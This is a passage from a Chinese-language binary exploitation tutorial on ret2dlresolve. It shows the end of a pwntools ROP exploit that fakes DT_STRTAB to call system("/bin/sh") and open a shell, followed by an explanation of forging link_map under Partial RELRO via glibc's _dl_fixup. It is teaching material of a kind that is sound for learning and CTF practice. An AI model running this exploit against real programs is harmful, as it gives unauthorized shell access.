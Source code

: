 ```python
            0,
            pop_rsi_2_ret,
            evil_buf,
            0,
            elf.plt.read,
            pop_rsi_2_ret,
            _DYNMIC_STRTAB,
            0,
            elf.plt.read,
            pop_rdi_ret + 1,
            pop_rdi_ret,
            evil_buf + 0x20,
            0x400566,
        ]
    }
)
s(payload)

input()
payload = b"\x00libc.so.6\x00system\x00".ljust(0x20, b"\x00") + b"/bin/sh\x00"
s(payload)

input()
payload = p64(evil_buf)
s(payload)

ia()
```

## `Partial_RELRO` 伪造 `link_map`

在 `Partial_RELRO` 的情况下，GOT 表以外的数据段就变成了只读（包括上面的 `_DYNAMIC`），但是 GOT 表仍然是可写的（为了支持 lazy binding 加速程序启动速度）。在这种情况下上述针对 `NO_RELRO` 修改 `DT_STRTAB` 的利用方法就失效了，但 `link_map` 还是可以伪造的。

利用的关键在 [`_dl_fixup`](https://elixir.bootlin.com/glibc/glibc-2.27/source/elf/dl-runtime.c#L61) 函数里，函数本身比较复杂。但是假如把关注点放在伪造 `link_map` 任意调用 libc 函数上，我们就只需要使 `l->l_addr` 为自定义偏移值，`sym->st_value` 为已解析函数，最后手动模拟 plt 表中调用 `_dl_runtime_resolve` 函数就能在无泄漏的情况下任意调用 libc 函数。

```c
_dl_fixup (struct link_map *l, ElfW(Word) reloc_arg)
{
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

  /* Sanity check that we're really looking at a PLT relocation.  */
  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

   /* Look up the target symbol.  If the normal lookup rules are not
      used don't look in the global scope.  */
  if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
    {
        // ...
    }
  else
    {
```